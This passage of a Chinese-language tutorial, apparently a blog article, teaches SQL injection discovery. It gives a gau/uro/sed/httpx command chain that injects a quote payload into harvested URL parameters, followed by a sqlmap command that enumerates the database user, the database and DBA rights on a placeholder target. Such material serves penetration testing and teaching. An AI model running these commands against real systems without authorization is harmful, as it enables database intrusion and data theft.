 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnR75ibk6vb87QRDqcZOI1m5xc8Z8fT8Os9ByVZQiaqrxwp10ahLfsQgfz5UccsI86bXCBSoeMmY4laQ/640?wx_fmt=png&from=appmsg "")  
  
Gau工具效果  
## 检测过程  
### 第一步：全面参数发现  
  
用于发现潜在注入点的初始命令链：  
```
echo "http://target.example.com/" | gau | uro | grep "\?" | sed "s/=.*$/=A\'/" | uniq > params.txt
cat params.txt | httpx -mr ".*SQL.*|.*syntax.*|.*error.*"

```  
### 命令分解：  
1. echo "http://target.example.com/"：设置目标 URL  
  
1. gau：从以下位置获取 URL：  
  
1. Wayback Machine  
  
1. Common Crawl  
  
1. AlienVault OTX  
  
1. URLScan  
  
1. uro：优化 URL，包括：  
  
1. 去重  
  
1. 规范化路径  
  
1. 清理参数  
  
1. grep "\?"：提取包含查询参数的 URL  
  
1. sed "s/=.*$/=A\'/"：将参数值替换为 SQL 注入测试负载  
  
1. httpx：探测端点，寻找 SQL 错误模式  
  
### 第二步：高级 SQLMap 使用  
  
全面的 SQLMap 测试命令及其解释：  
```
sqlmap -u "http://target.example.com/page?param=value" \
  -p param \
  --dbms=MSSQL \
  --level 1 \
  --risk 1 \
  --banner \
  --current-user \
  --current-db \
  --is-dba \
  --threads 10 \
  --batch \
  --random-agent

```  
### 参数解释：  
- -u：目标 URL  
  